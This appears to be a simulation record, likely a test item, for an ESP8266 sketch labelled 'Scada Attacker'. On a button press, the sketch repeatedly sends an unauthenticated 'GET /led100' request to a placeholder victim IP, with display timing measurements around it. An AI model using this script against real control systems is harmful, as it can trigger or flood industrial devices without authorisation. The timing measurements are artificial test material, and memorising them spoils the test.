
A sketch run on a simulated ESP8266 (NodeMCU). Shown: 128×64 one-colour display. Inputs (shaded band) come from the test bench; at power-on: GPIO 14 (buttonApin) HIGH. WiFi joins after 1.5 s; servers stay silent unless stated; uploads are accepted with an empty reply.

Above: at 0.1 s.
At 4.1 s:

15.3 s: GPIO 14 (buttonApin) pulled LOW for 0.15 s
At 17.3 s:

Timing chart, 0 to 18.8 s (numbered marks = the images above; inputs shaded):


The sketch:

esp8266_attacker.ino
```cpp
#include <ESP8266WiFi.h>
#include <WiFiClient.h>
#include "SSD1306.h"

extern "C" {
#include "user_interface.h"
}

int buttonApin = 14;  //D5
const char* ssid = "<ssid>";
const char* password = "<password>";
const char* host = "<victim ip>";
const uint16_t port = 80;
String url = "/led100";

/* create display(Adr, SDA-pin, SCL-pin) */
SSD1306 display(0x3c, 5, 4);   // GPIO 5 = D1, GPIO 4 = D2

#define flipDisplay true
/* Display settings */
#define minRow       0              /* default =   0 */
#define maxRow     127              /* default = 127 */
#define minLine      0              /* default =   0 */
#define maxLine     63              /* default =  63 */

/* render settings */
#define Row1         0
#define Row2        30
#define Row3        35
#define Row4        80
#define Row5        85
#define Row6       125

#define LineText     0
#define Line        12
#define LineVal     47

void setup() {

  pinMode(buttonApin, INPUT_PULLUP);

  /* start Display */
  display.init();
  if (flipDisplay) display.flipScreenVertically();

  /* show start screen */
  display.clear();
  display.setFont(ArialMT_Plain_16);
  display.drawString(0, 0, "TinyML-");
  display.drawString(0, 16, "Demo");
  display.setFont(ArialMT_Plain_10);
  display.drawString(0, 40, "Version 1.1");
  display.drawString(0, 50, "Scada Attacker");
  display.display();
  delay(2500);
  display.clear();

  WiFi.begin(ssid, password);

  display.drawString(0, 0, "Connecting ...");
  display.display();
  int i = 0;
  while (WiFi.status() != WL_CONNECTED) { // Wait for the Wi-Fi to connect: scan for Wi-Fi networks, and connect to the strongest of the networks above
    delay(250);
  }
  display.clear();
  display.drawString(0, 10, "Connected");
  display.drawString(0, 20, "SSID:");
  display.drawString(32, 20, (String)WiFi.SSID());
  display.drawString(0, 30, "IP:");
  display.drawString(32, 30, WiFi.localIP().toString());
  display.display();
  delay(10000);
  display.clear();
  display.display();

}

void attack(){
  int count = 0;
  do {
    display.clear();
    display.drawString(0, 0, "Attacking");
    display.drawString(0, 10, (String)host);
    display.drawString(0, 20, "Sent Count:");
    display.display();

    // Use WiFiClient class to create TCP connections
    WiFiClient client;
    if (!client.connect(host, port)) {
      display.drawString(0, 40, "Connection failed");
      display.display();
      delay(5000);
      display.clear();
      return;
    }

    if (client.connected()) {
      // This will send the request to the server
      client.print(String("GET ") + url + " HTTP/1.1\r\n" +
                  "Host: " + host + "\r\n" +
                  "Connection: close\r\n\r\n");
      delay(500);
    }

    // wait for data to be available
    unsigned long timeout = millis();
    while (client.available() == 0) {
      if (millis() - timeout > 5000) {
        client.stop();
        delay(5000);
        return;
      }
    }

    while (client.available()) {
      String line = client.readStringUntil('\r');
      if (line == "HTTP/1.1 200 OK") {
        count++;
        display.drawString(0, 30, (String)count);
        display.display();
        delay(500);
        break;
      } else {
        break;
      }
    }

    // Close the connection
    client.stop();
    delay(1000);
    } while (count < 90);

    display.drawString(0, 40, "Attack completed");
    display.clear();
    delay(5000);
    display.display();
}

void loop() {
  if (digitalRead(buttonApin) == LOW) {
    attack();
  }
}
```

Measured:
- after the input at 15.3 s, the display: first changes at once (image 2 shows a later state)
- what the display in image 1 shows lasts 10.0 s, from 4.1 s to 14.1 s
